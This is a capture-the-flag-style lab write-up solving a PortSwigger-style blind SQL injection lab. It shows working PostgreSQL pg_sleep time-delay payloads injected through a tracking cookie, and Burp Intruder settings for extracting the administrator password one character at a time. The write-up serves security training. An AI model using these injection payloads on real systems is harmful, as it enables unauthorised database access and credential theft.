





# Lab: Blind SQL injection with time delays and information retrieval
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Solution
The fundamentals are the same like in the lab before ([Visible error-based SQL injection](Visible_error-based_SQL_injection.md)).

So we can use a conditional query to make usage of the blind SQL injection. The query will delay if the condition is true.
```
TrackingId=HEmNuOdbcGF4dMy8' || CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END ||'
```

### Information gathering
#### Users table
As usual we have to verify that there is a table called 'users'. We can test that with the following query:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users) ||'
```

The `FROM` part of this statement will be executed first. If it has some return value, the `SELECT` part will be executed. Since `1=1` is everytime true, `pg_sleep(2)` will be executed. So if we get a delay, the table exists. If the table wouldn't exists, we won't get a delay.

We can verify it with a query like this:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM test) ||'
```
It won't create a response delay.

#### Administrator user
To check for the username 'administrator', we can simply add this `WHERE` clause:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```
Same again, delay means the username exists, no delay means it doesn't.

#### Password length
Check for the password length:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN LENGTH(password)>1 THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```
If we want to use Burp Intruder, than we have to adjust it's parameters. The query stays the same and we use the 'Numbers' payload type. But in the 'Resource pool' we have to use a pool with 'Maximum concurrent requests' of 1. Otherwise Burp would use multiple threads, which would falsify the response time. With that we can start the attack.

In results window, we have to select the tab 'Column' and activate the column 'Response received'. Now we can see the differences between the delayed and the not delayed functions.

The configuration and the results are shown below.

| Positions | Payloads | Resource pool | Results |
| --------- | -------- | ------------- | ------- |
|  |  |  |  |

#### Password character
Check for single characters:
```
TrackingId=HEmNuOdbcGF4dMy8' || (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```

To automate this task we choose the attack type 'Cluster bomb' with the following query (take a look at the two § sections):
```
TrackingId=RNF8Kn129ihmCTHM' || (SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator') ||'
```

The first parameter gets the payload type 'Numbers' and the second one 'Brute forcer' with the characters [a-z] and [0-9]. The other settings will be the same. In the results we see the correct characters with the longer response time.

The process of the result will look like this:


_Keep in mind that with Burp CE the Cluster Bomb attack will take a lot more time than it would in the Premium Edition._

With that we found the password: `lm1d0xmmuclz30yg3oap`

Logging in with the found credentials will solve the lab.